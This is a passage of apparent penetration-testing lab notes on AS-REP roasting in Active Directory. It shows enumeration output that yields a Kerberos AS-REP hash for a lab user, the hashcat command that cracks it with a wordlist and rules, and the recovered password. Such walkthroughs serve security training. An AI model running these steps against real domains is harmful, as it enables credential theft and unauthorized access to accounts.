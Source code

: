 ```
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

$krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

### Hash Cracking with Hashcat

**Identify Correct Hashcat Mode:**
```bash
# Search for Kerberos-related hash modes
hashcat --help | grep -i "Kerberos"
```

**Hashcat Mode Reference:**
```
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

**AS-REP Hash Cracking:**
```bash
# Crack AS-REP hash using mode 18200
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Successful Crack Output:**
```
$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
```

### Targeted AS-REP Roasting
